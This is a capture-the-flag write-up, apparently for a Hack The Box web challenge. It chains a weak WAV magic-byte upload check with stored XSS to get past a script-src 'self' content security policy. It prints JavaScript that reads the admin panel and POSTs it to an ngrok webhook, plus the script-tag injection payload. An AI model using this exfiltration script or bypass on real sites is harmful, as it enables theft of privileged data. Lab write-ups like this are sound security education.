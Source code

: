 One more login screen for the next challenge:

![image](https://user-images.githubusercontent.com/80063008/227709302-e2c0023c-fb15-466e-936e-4dccb557ccc1.png)

At first I analyzed the `spybug-agent.go` file which was provided initially. The full source code was provided later. From the agent code I could figure out some endpoints and some functionality.

![image](https://user-images.githubusercontent.com/80063008/227709560-d1e89851-c4f5-4121-868f-745b3d9ee05b.png)

For example, we have a `/agents/register` endpoint. This gives us two UUIDs. An identifier and a token.

![image](https://user-images.githubusercontent.com/80063008/227709545-db9b2da0-8d21-48b7-b9f7-7ac1cf6b7e9e.png)

On the `/agents/check/<identifier>/<token>` endpoint we can check the agent we just registered but we get nothing more than an OK.

![image](https://user-images.githubusercontent.com/80063008/227709622-5d527a9e-6103-46c3-b3e5-6f43ea1372b8.png)

We also have a POST request to `/agents/details/<identifier>/<token>` which takes some user input. We can send a "hostname", "platform", "arch".

![image](https://user-images.githubusercontent.com/80063008/227709678-6edeb7d1-bc6c-40c3-ba67-9b9037a61008.png)

I built that request in BurpSuite but again, we get nothing more than an OK:

![image](https://user-images.githubusercontent.com/80063008/227709738-14f7f831-58f2-4ef5-8c95-09d3f12423a1.png)

We have another function to an `/agents/upload/<identifier>/<token>` endpoint.

![image](https://user-images.githubusercontent.com/80063008/227709797-cfaab1dd-ccf6-441a-803f-16f30ca4606c.png)

This expects us to send a POST request to upload a wave file within a form-data request with the filename being "recording"

![image](https://user-images.githubusercontent.com/80063008/227709827-6835c5fb-27b7-46bd-bc18-49da270f0bc4.png)

I tried to do the multipart/form-data upload but I kept getting a `Bad Request` response. That is until they released the rest of the source code and I noticed this in `control-panel/routes/agents.js`:

![image](https://user-images.githubusercontent.com/80063008/227710300-8d7738e0-8883-471d-a2ae-baf7c5fa3b77.png)

The server expects a specific "audio/wave" mimetype and the ".wav" extension. We also notice another important part in the same file. There's an additional filter to the file upload.

![image](https://user-images.githubusercontent.com/80063008/227710128-a82d1000-9ddf-4f5b-a206-8bb98f503ab7.png)

The server checks the file header to ensure that it is a wave file. Or at least that is the intent. What it actually does is it only checks if the specific hex values are located anywhere in the file. It's not actually checking the file header. This means we can send a request like this and we no longer get a "Bad Request" error message. We actually get an UUID assigned to the file upload:

![image](https://user-images.githubusercontent.com/80063008/227710411-b952e25a-d000-4203-9b40-010114f93ad6.png)

In the `control-panel/utils/adminbot.js` we also notice that there's a bot accessing the admin panel. 

![image](https://user-images.githubusercontent.com/80063008/227710967-3b1b4a2f-aa63-4492-8139-19e7880bc324.png)

It doesn't click on anything though. At this point I wanted to have a look at the admin panel myself. I modified the `build-docker.sh` file to put a password in the ADMIN_SECRET variable:

![image](https://user-images.githubusercontent.com/80063008/227710551-35a4ff30-f2ec-4041-bc50-a8c380578f5c.png)

I logged in and now can see the admin panel with some content that I passed at a certain point. A POST request sending details and an upload:

![image](https://user-images.githubusercontent.com/80063008/227710597-595a083e-5c4a-42d1-9b29-2542621ec693.png)

Inspecting the audio controls, we can also see where it's taking it from:

![image](https://user-images.githubusercontent.com/80063008/227710902-bac8c224-804a-4fc1-96d0-8317f4a9d8be.png)

Now that I can see what the bot would see. I tried a simple XSS payload in the hostname field but I got blocked by the CSP:

![image](https://user-images.githubusercontent.com/80063008/227710622-7992f5a2-0f50-4bb8-83f1-b379a6989f54.png)

Let's take a closer look at that CSP. 

![image](https://user-images.githubusercontent.com/80063008/227710634-fe67ad11-a1fa-4001-8a8b-a567b48de469.png)

We have `script-src 'self'` but there's also `object-src 'none'`. After doing some research on various CSP bypasses, I found this very helpful blog: https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d

This blog presents various scenarios, including Scenario 5 which seems very applicable to us:

![image](https://user-images.githubusercontent.com/80063008/227710708-757af160-020c-47ee-bd9d-15092f87e37e.png)

Now it all makes sense. We have unsanitized input in the /agents/details endpoint and file upload which can be bypassed in /agents/upload. We should have what we need. 

**Step 1**: Register a new agent to get identifier and token:
![image](https://user-images.githubusercontent.com/80063008/227710772-66c30cc6-9462-4a36-b512-1abcca1679a7.png)

**Step 2**: Upload file with recording name in the form-data, .wav extension, audio/wave mimetype and the wav magic header anywhere in the file (it doesn't check for the magic bytes to be the first ones). I used // to comment it out in the javascript code so that javascript parsing won't error out. The javascript below is simply accessing the admin panel grabbing the response and sending it to our webhook.

```javascript
var target = 'http://localhost:1337/panel';
var req1 = new XMLHttpRequest();
req1.open('GET', target, false);
req1.send();
var response = req1.responseText;
var attack = 'https://5816-188-24-131-248.eu.ngrok.io';
var req2 = new XMLHttpRequest();
req2.open('POST', attack, false);
req2.send(response);
```
![image](https://user-images.githubusercontent.com/80063008/227710815-e6915a95-2557-4dab-a0a1-6a63d90ca7ae.png)

**Step 3**: Post details with the UUID filename within the XSS payload to load the javascript from the local source thus fulfilling the script-src "self" object-src 'none' CSP.

```
<script src=\"/uploads/076095a0-7b50-4dac-b6eb-9900062c5c68\"></script>
```
After a short while, waiting for the bot eagerly, we get the flag:

![image](https://user-images.githubusercontent.com/80063008/227710858-fda45a4f-9f88-42e6-849c-149e25fc1eb5.png)

All in all, this one was my favourite challenge as it presented multiple hurdles and steps where we really needed to think outside the box. Attention to detail every step of the way was important and I enjoyed that.

HTB{p01yg10t5_4nd_35p10n4g3}
